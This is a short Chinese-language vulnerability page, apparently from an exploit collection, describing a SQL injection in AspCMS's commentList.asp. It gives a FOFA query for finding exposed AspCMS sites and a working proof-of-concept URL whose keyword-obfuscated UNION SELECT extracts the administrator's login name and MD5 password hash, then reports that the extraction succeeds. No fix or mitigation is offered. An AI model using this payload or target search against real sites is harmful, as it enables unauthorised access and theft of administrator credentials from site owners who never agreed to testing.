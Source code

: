 # AspCMS commentList.asp SQL注入漏洞

## 漏洞描述

AspCMS commentList.asp 存在SQL注入漏洞，攻击者通过漏洞可以获取管理员md5的密码

## 漏洞影响

<a-checkbox checked>AspCMS</a-checkbox></br>

## FOFA

<a-checkbox checked>app="ASPCMS"</a-checkbox></br>

## 漏洞复现

通过网站源码响应判断CMS

![img](../../../.vuepress/public/img/1628478800340-8ab8b7c0-3f74-4294-bac5-4153b18ae8c9.png)

验证POC

```php
/plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
```

![img](../../../.vuepress/public/img/1628478943060-7c05774b-519d-47cf-ad9a-05fb52f74253.png)

成功获取管理员账号以及密码的MD5